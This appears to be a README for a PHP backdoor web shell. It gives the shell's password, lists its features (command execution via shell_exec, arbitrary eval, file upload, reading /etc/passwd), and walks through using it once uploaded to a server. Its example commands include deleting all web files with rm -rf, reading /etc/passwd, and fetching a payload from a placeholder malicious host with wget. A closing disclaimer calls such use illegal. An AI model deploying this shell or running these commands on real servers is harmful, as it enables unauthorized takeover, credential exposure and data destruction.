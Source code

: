 ### PHP RootKit Backdoor – Features & Security Risks

Password:
```bash
R00t
```

#### Overview

This PHP backdoor script provides full control over a web server once deployed. **It is a malicious tool** that allows unauthorized access and remote command execution.

#### Features & Functions:

- **Password-Protected Access:** Requires a predefined password for login.
- **File Manager:** View, create, edit, and delete files.
- **Command Execution:** Run system commands using `shell_exec()`.
- **PHP Code Execution:** Execute arbitrary PHP scripts via `eval()`.
- **File Upload:** Upload files to the server.
- **Sensitive File Access:** Read system files like `/etc/passwd`.

#### Usage (Theoretical)

Once uploaded to a server, this script can be accessed via a browser:

1. Navigate to the script URL.
2. Enter the password to gain access.
3. Execute commands, manage files, and exploit the server.

#### Example Commands:

```bash
ls -la  # List directory contents
cat /etc/passwd  # View system user accounts
rm -rf /var/www/html/*  # Delete all web files (dangerous)
wget http://malicious.com/malware.php -O /tmp/m.php  # Download a malicious script
php -r "system('whoami');"  # Check user permissions
```

#### Warning & Ethical Considerations

**Using such scripts for unauthorized access is illegal.** Ethical hackers and security researchers analyze these abilities to strengthen web security. If found on a system, **remove it immediately** and implement stronger security measures.
